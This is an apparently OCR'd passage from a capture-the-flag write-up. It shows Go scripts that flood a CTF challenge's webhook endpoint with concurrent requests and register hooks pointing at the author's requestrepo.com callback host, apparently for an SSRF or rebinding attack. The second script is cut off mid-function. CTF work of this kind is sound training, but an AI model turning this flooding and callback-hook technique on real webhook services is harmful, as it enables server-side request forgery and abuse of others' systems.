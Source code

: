 ```go
                        defer wg.Done()
                        for {
                                resp, err := http.Post(url, "application/json", bytes.NewBuffer(payload))
                                if err != nil {
                                        fmt.Println("Error:", err)
                                        continue
                                }
                                resp.Body.Close()
                                fmt.Println("Status:", resp.Status)
                        }
                }()
        }
        wg.Wait()
}

func repeat(s string, count int) string {
        var result bytes.Buffer
        for i := 0; i < count; i++ {
                result.WriteString(s)
        }
        return result.String()
}
```
This `probe.go` script will consistently probe the webhook passing in my `http://pwn.fl7mhi6b.requestrepo.com/admin` which has an A record pointing to `93.184.215.14`.

```go
package main

import (
        "bytes"
        "encoding/json"
        "fmt"
        "math/rand"
        "net/http"
        "sync"
        "time"
)

const (
        url     = "https://webwebhookhook-5dbcb929250a3fff.i.chal.irisc.tf/create"
        workers = 10 // Number of concurrent goroutines
)

func main() {
        rand.Seed(time.Now().UnixNano())
        var wg sync.WaitGroup

        for i := 0; i < workers; i++ {
                wg.Add(1)
                go func() {
                        defer wg.Done()
                        for {
                                token := generateToken(32)
                                data := map[string]string{
                                        "hook":     fmt.Sprintf("http://pwn.fl7mhi6b.requestrepo.com/%s", token),
                                        "template": "",
                                        "response": "",
                                }

                                payload, _ := json.Marshal(data)
```